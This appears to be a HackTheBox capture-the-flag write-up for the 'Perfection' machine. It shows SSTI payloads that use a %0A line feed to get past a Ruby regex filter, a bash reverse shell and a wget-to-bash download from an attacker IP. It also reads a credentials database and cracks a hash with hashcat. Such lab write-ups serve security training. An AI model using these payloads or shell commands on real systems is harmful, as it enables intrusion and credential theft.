




## Reconnaissance

### nmap 


### Web Service


### Gobuster 


## Exploit 

> In /weighted-grade-calc
> Try to send request, and intercept with burp 


> I start to manipulate the value.
> If I change the value for weight, sometimes it will caused the total weight not to 100.
> Then it will response error.

```
Please reenter! Weights do not add up to 100.
```


>  So, I think it might not a good option to manipulate the **weight** value (too much condition to cause different error.)
>  I also test the 'category'
>  if I insert some special character, it will  response block message

```
Malicious input blocked
```


> First, I tried to check the character for command injection

```
;, &, &&, |, ||, `, %0A, %0D, ${IFS}, ${}
```

- [Command Injection](https://0xffsec.com/handbook/web-applications/command-injection/)


> With testing above character in target

```
%0D
```


```
%26%26
```


```
%60
```


```
`<%25%3d%207*7%20%25>
```


> Only %0A won't reply block message


>  I start to try different command injection payload with '%0A'
>  But most of them are failed.
>  The only interesting thing is those special character which will cause block message can work as string with '%0A'


> So far, I know I can use '%0A' to bypass the malicious checking in server side.
> Then I also research 'Bypass malicious input check in ruby' and 'bypass with %0A ruby'
> Here are 3 important article:

1. [SSTI Bypass Filter (/^[0–9a-z ]+$/i)](https://blog.devops.dev/ssti-bypass-filter-0-9a-z-i-08a5b3b98def)
2. [SSTI Smarty with Bypass Regex Filter](https://diegojoelcondoriquispe.medium.com/ssti-smarty-with-bypass-regex-filter-e25f489ba143)
3. [Bypassing regular expression checks with a line feed](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/)

> With above introducing, I learn a new technique "Regular filter" and how to 'Bypass Regular Filter '
> One of the technique from above article is using multiple line character (\n or %0A)
> And with the example of those articles, I think SSTI might be one of the potential vulnerability in here 
> Hence I tried the following:

```
%0A<%= 7*7 %>
```



> But it still won't work, it will cause error
> So, I change to URL encode, and template injection has executed.

```
%0A<%25%3d%207*7%20%25>
```


> So, I start to craft the rce 
> Try using system()
> it only return true / false as response
```
sdf%0A<%25%3d%20system("ls")%20%25>
```


> Try eval(), response "Internal Server Error"


> Try ``, I can execute the command 

```
sdf%0A<%25%3d%20`id`%20%25>
```


```
sdf%0A<%25%3d%20`cat%20/etc/passwd`%20%25>
```


> Find a potential user - susan


```
sdf%0A<%25%3d%20`ls%20-al%20%20/home/susan`%20%25>
```


> Start to create a reverse shell
> Create a reverse shell file 

```
!#/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.76/443 0>&1
```


> Download the reverse shell file to target 

```
sdf%0A<%25%3d%20`wget%20http://10.10.14.76/rev1.sj%20-O%20/tmp/rev1.sh|bash`%20%25>
```


> Check /tmp directory to confirm the file transfer success or not



>Execute the reverse shell 

```
sdf%0A<%25%3d%20`/bin/bash%20/tmp/rev1.sh`%20%25>
```


> Check my listener


> Confirm current user


> Get user flag 


## Privilege Escalation 

> Check sudo permission, it will failed.


> according to the error message, maybe I need to set up the fully interaction mode first 
> Then I can execute the command, but it needs credential


> Launch linpeas to enumerate this target


> Potenial CVEs


> Network status 




> Suspicious files 


> Check susan's mail 
> It provides the format of password 

```
{firstname}_{firstname backwards}_randomly generated integer between 1 and 1000000000
```


> Check db file 

```
cat pupilpath_credentials.db
```


```
strings /home/susan/Migration/pupilpath_credentials.db
```


> Record susan's hash 


> identified the has value

```
hash-identifier abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```


> Crack the hash with the known format by hashcat

- [mask_attack](https://hashcat.net/wiki/doku.php?id=mask_attack)


> Start to crack hash 

```
hashcat -m 1400 susane.hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```


> Get credential

```
susan_nasus_413759210
```


> SSH login 


> Check sudo permission, I can execute any command with root permission 


> Hence escalate permission by sudo 

```
sudo su
```


> Get root flag


## Reference 


- [Discussion - Perfection](https://forum.hackthebox.com/t/official-perfection-discussion/309066/17)
- [**(Important material)Command Injection**](https://0xffsec.com/handbook/web-applications/command-injection/)
- [(HackTricks)SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [A Pentester's Guide to Server Side Template Injection (SSTI)](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
- [Manual Web Application Penetration Testing – Suffix & Prefix in Fuzzing](https://www.infosecinstitute.com/resources/penetration-testing/manual-web-application-penetration-testing-suffix-prefix-fuzzing/)
- [SSTI Payload](https://github.com/payloadbox/ssti-payloads)
### Regular Expression Check bypass

- [Bypassing regular expression checks with a line feed](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/)
- [SSTI Bypass Filter (/^[0–9a-z ]+$/i)](https://blog.devops.dev/ssti-bypass-filter-0-9a-z-i-08a5b3b98def)
- [SSTI Smarty with Bypass Regex Filter](https://diegojoelcondoriquispe.medium.com/ssti-smarty-with-bypass-regex-filter-e25f489ba143)
- [Regexp Security Cheatsheet](https://github.com/attackercan/regexp-security-cheatsheet)
- [Python Regex Filter bypass](https://www.secjuice.com/python-re-match-bypass-technique/)
### Hashcat bruteforce

- [Hash-identifier](https://www.kali.org/tools/hash-identifier/)
- [mask_attack](https://hashcat.net/wiki/doku.php?id=mask_attack)
## Research 

- How to identified the vulnerability (SSTI) in here ? any clues ? or I need to test it one by one

###### tags: `HackTheBox`